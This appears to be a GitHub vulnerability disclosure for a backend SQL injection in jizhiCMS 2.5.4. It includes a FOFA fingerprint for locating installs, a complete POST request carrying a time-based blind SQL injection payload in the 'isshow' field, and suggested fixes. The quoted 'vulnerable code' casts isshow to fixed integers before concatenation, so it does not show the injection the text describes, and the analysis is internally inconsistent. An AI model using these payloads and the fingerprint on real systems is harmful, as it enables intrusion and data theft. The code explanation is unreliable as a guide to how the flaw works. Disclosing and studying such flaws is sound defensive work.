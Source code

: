 # jizhicms-sql
The jizhicms version 2.5.4 contains a backend SQL injection vulnerability.
There is a backend SQL injection vulnerability in jizhiCMS version 2.5.4.
Fingerprint
fofa:icon_hash="1657387632"
SQL Injection Vulnerability
The vulnerable file is located at:
jizhicms-2.5.4/app/admin/c/LinksController.php
This is where the backend SQL injection vulnerability exists in jizhiCMS version 2.5.4.
Vulnerability PoC (Proof of Concept)：



POST /index.php/admins/Links/addlinks/molds/links.html HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Priority: u=0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: */*
X-Requested-With: XMLHttpRequest
Referer: http://154.217.245.237:1234/index.php/admins/Links/addlinks/tid/1/molds/links.html
Cookie: PHPSESSID=umgc0aguscmvgmjv96mvjmpd81
Accept-Encoding: gzip, deflate
Origin: http://154.217.245.237:1234
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Content-Length: 47

go=1&tid=1&title=qwd&url=www.baidu.com&isshow=1'and(select*from(select+sleep(6))a/**/union/**/select+1)='

<img width="950" alt="image" src="https://github.com/user-attachments/assets/bef3233f-eaeb-4df7-a233-25e328653e10" />


Vulnerability Type: Backend SQL Injection
Affected File/Function: LinksController.php – Parameter handling for isshow
Component: jizhiCMS 2.5.4
Attack Vector: Authenticated POST request
Vulnerable Code:
if($this->frparam('isshow')){
    if($this->frparam('isshow')==1){
        $isshow=1;
    }else if($this->frparam('isshow')==2){
        $isshow=0;
    }else{
        $isshow = 2; // default fallback
    }
    $sql .= ' and isshow='.$isshow; // directly concatenated
}
Description:

This code is vulnerable to SQL injection due to the direct concatenation of unvalidated user input ($isshow) into the SQL query string. While the application attempts to convert the isshow parameter to specific numeric values (1 or 0), it fails to enforce strong input validation or type safety. If an attacker supplies a specially crafted payload through isshow, such as:
isshow=1' AND (SELECT * FROM (SELECT SLEEP(5))a) AND '1'='1
The application may construct a query that causes SQL logic manipulation or time-based blind injection, depending on the database context.

Impact:
Unauthorized SQL execution
Information disclosure
Potential remote code execution (if combined with other vulnerabilities)
Database integrity compromise
Recommendation:
Sanitize and strictly cast input values to expected types (e.g., use (int)$this->frparam('isshow'))
Replace raw SQL concatenation with prepared statements (parameterized queries)

![image](https://github.com/user-attachments/assets/476d6f79-36af-46a7-a087-2debeb7fc467)
![image](https://github.com/user-attachments/assets/fbba5834-5a02-42e3-b8b1-72be96c69872)




